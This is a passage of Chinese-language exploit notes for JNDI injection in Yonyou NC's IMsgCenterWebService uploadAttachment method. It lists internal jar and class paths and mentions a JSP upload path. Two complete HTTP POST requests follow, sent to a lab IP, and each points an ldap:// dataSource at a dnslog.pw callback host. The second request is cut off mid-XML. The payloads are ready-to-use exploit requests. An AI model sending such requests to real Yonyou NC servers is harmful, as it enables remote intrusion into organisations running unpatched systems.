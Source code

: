 上传路径：/123.jsp

https://security.yonyou.com/#/noticeInfo?id=281

### JNDI注入

#### IMsgCenterWebService

modules\uapmp\lib\pubuapmp_mpLevel-1.jar!\nc\itf\msgcenter\IMsgCenterWebService.class

打 modules\uapmp\META-INF\lib\uapmp_mpLevel-1.jar!\nc\impl\msgcenter\MsgCenterServiceImpl.class 的 uploadAttachment  方法

两种方式打

```
POST /uapws/service/nc.itf.msgcenter.IMsgCenterWebService HTTP/1.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: text/xml;charset=UTF-8
Host: 192.168.111.137:8082
Content-Length: 386

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ims="http://msgcenter.itf.nc/IMsgCenterWebService">
   <soapenv:Header/>
   <soapenv:Body>
      <ims:uploadAttachment>
         <dataSource>ldap://asdasd.u5rj53uh.dnslog.pw</dataSource>
      </ims:uploadAttachment>
   </soapenv:Body>
</soapenv:Envelope>
```

接口：hotwebs\uapws\WEB-INF\config.xml

可以通过 modules\uapfw\lib\pubuapfw_wsframeworkLevel-1.jar!\nc\uap\ws\console\action\SoapRequestAction.class 传参

```
POST /uapws/soapRequest.ajax HTTP/1.1
Host: 192.168.111.137:8082
Content-Length: 1046
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Origin: http://192.168.111.137:8082
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

ws=nc.itf.msgcenter.IMsgCenterWebService&soap=<?xml version="1.0" encoding="UTF-8"?><env:Envelop xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:sn="http://msgcenter.itf.nc/IMsgCenterWebService">
  <env:Header/>
  <env:Body>
    <sn:uploadAttachment>
      <dataSource>ldap://asdq3123.u5rj53uh.dnslog.pw</dataSource>
    </sn:uploadAttachment>
```
